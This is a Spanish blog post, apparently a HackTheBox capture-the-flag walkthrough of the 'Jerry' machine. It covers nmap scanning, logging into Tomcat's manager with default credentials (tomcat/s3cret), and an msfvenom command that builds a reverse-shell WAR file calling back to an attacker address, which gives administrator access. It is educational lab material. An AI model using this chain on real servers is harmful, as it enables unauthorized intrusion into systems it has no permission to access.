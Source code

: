 ```yaml
---
layout: single
title: Máquina Jerry - HackTheBox (OSCP Style)
excerpt: "Resolución de la máquina Jerry, la cual figura en la plataforma con un nivel de dificultad Easy."
date: 2021-09-14
classes: wide
header:
  teaser: /assets/images/jerry-htb/portada.png
  teaser_home_page: true
categories:
  - HTB
  - Blog
tags:
  - Blog
  - Writeup
  - Guía
  - Walkthrough
---
```


+ **Información de la máquina**
	
	![0]

+ Verificamos que tengamos comunicación a la máquina por medio de una traza ICMP. Por el TTL deducimos que es una máquina Windows.

	![1]
	
+ Iniciamos la fase de reconocimiento con un escaneo rápido con ayuda de nmap en busca de puertos TCP abiertos.

	![2]
	
	El único puerto que está abierto es el 8080, característico de Tomcat.
	
+ Si ejecutamos un escaneo en busca de servicios y versiones para los puertos encontrados con ayuda de nmap, veremos que efectivamente, se trata de un servidor Tomcat.

	![3]
	
+ Fuzzeamos con el script **http-enum** de nmap en busca de directorios ocultos en el servidor web.

	![4]
	
	Encontramos los directorios típicos de un Tomcat, por lo que accedemos por medio de un navegador.
	
	![5]
	
+ El directorio **/manager/html** es la ruta para acceder al panel de administración de Tomcat, pero este pide credenciales válidas para acceder a dicho panel.

	![6]
	
	Como no las tenemos, hacemos clic en **Cancelar**.
	
+ Esta última acción genera un error bastante curioso en el sistema, y es que nos muestra una página web donde se nos indica que no tenemos permiso para acceder al recurso solicitado. Pero a la vez, nos muestra las credenciales por defecto que tiene un Tomcat recién instalado:

	```
		Usuario: tomcat
		Password: s3cret
	```
	
	![7]
	
+ Si volvemos a acceder al recurso, proporcionando estas credenciales, veremos que somos capaces de acceder al panel de administración de Tomcat.
	
	![8]
	
	![9]
	
+ Para comprometer un Tomcat, debemos cargar en el sistema un archivo **WAR** malicioso que nos devuelva una reverse shell. Para crear este archivo, nos valemos de msfvenom:

	``msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f war -o shell.war``

	![10]
	
	Este archivo debe ser subido dentro de la sección **"WAR file to deploy"**
	
	![11]
	
+ Una vez hagamos clic en **Deploy**, veremos el nuevo recurso desde el panel principal de Tomcat. Para entablarnos la reverse shell, solo debemos ponernos en escucha con netcat y hacer clic en el recurso.

	![12]

	![13]
	
	Como podemos observar, hemos logrado obtener acceso al sistema, y no solo eso, sino que lo hemos hecho como el usuario administrador del sistema.

+ De hecho, si nos ponemos a enumerar un poco el sistema, veremos que es el único usuario disponible:
	
	![14]
	
+ Dentro de su durectorio de trabajo, veremos una carpeta llamada flags, la cual en su interior contiene un archivo llamado **"2 for the price of 1.txt"**
	
	![15]
	
	![16]

+ Este último archivo contiene en su interior las dos flags, tanto la de user como la de root. ¡Vaya oferta! 2 flags por el precio de 1.

	![17]

[0]:/assets/images/active-htb/0.png
[1]:/assets/images/active-htb/1.png
[2]:/assets/images/active-htb/2.png
[3]:/assets/images/active-htb/3.png
[4]:/assets/images/active-htb/4.png
[5]:/assets/images/active-htb/5.png
[6]:/assets/images/active-htb/6.png
[7]:/assets/images/active-htb/7.jpg
[8]:/assets/images/active-htb/8.png
[9]:/assets/images/active-htb/9.png
[10]:/assets/images/active-htb/10.png
[11]:/assets/images/active-htb/11.png
[12]:/assets/images/active-htb/12.jpg
[13]:/assets/images/active-htb/13.png
[14]:/assets/images/active-htb/14.png
[15]:/assets/images/active-htb/15.png
[16]:/assets/images/active-htb/16.png
[17]:/assets/images/active-htb/17.jpg